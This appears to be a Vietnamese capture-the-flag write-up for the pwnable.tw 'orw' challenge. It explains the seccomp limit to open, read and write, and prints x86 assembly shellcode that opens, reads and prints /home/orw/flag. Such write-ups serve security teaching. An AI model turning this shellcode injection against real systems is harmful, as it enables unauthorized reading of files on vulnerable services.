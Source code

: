 # [pwnable.tw] - orw

<img src="./images/orw.png" alt="orw" width="500" height="300">

## A. CHALLENGE 

### [1] Binary Mitigations. 

- Đầu tiên ta kiếm tra các mitigations và xem thông tin cơ bản của file.

![checksec.png](./images/checksec.png)

- Chương trình 32-bit khá đơn giản, cho phép nhập một chuỗi đầu vào (là shellcode) và cuối hàm main thì gọi tới `function pointer` trỏ tới shellcode mà chúng ta đã nhập. 

![execute.png](./images/execute.png)

## B. OVERVIEW

### [1] Vulnerability Analysis.

- Phần hint của bài cũng đã mô tả khá rõ là ta chỉ có thể dùng shellcode `open`, `read` và `write` để đọc flag, khi chúng ta nhập input là shellcode thì chương trình sẽ thực thi shellcode đó. 

![seccomp.png](./images/seccomp.png)

### [2] Idea Exploit.

- Chúng ta sẽ dùng **syscall_open** để mở file flag ở **/home/orw/flag** và dùng **syscall_read**, **syscall_write** để đọc và ghi flag ra **terminal**.
## C. EXPLOITATION

### [1] Stage 1: Shellcode

- Đầu tiên sẽ là shellcode `syscall_open` mở file flag ở `/home/orw/flag`. 

```asm
	xor ecx,ecx                ; clear the ecx registry
	mov eax, 0x5               ; sys_open
	push ecx                   ; push a NULL value unto the stack
	push 0x67616c66            ; galf (flag)
	push 0x2f77726f            ; /wro (orw/)
	push 0x2f656d6f            ; /emo (ome/)
	push 0x682f2f2f            ; h/// (///h)
	mov ebx, esp               ; move contents to ebx
	xor edx, edx               ; clear the edx registry
	int 0x80                   ; interrupt, call the kernel to execute the syscall
```

- Tiếp theo là `syscall_read` và `syscall_write` để đọc và ghi flag.

```asm
	mov eax, 0x3               ; sys_read
	mov ecx, ebx               ; contents of the flag file
	mov ebx, 0x3               ; fd
	mov dl, 0x30               ; decimal 48, used for the interrupt
	int 0x80                   ; interrupt, call the kernel to execute the syscall

	mov eax, 0x4               ; sys_write
	mov bl, 0x1                ; decimal 1, used for the interrupt
	int 0x80                   ; interrupt, call the kernel to execute the syscall
```

- Trên đây là code asm không phải là shellcode, bạn có thể dùng các hàm có sẵn trong `pwntools` để chuyển code trên thành shellcode. 

```c
char *fn = “/home/orw/flag”;
sys_open(fn, 0, 0);
sys_read(3, fn, 0x30);
sys_write(1, fn, 0x30);
```

* __NOTE:__ Tools online [defuse.ca](https://defuse.ca/online-x86-assembler.htm#disassembly2) chuyển asm => shellcode.


## D. FLAG

- Tiến hành viết file [exp.py](./exp.py) và khai thác:

![flag.png](./images/flag.png)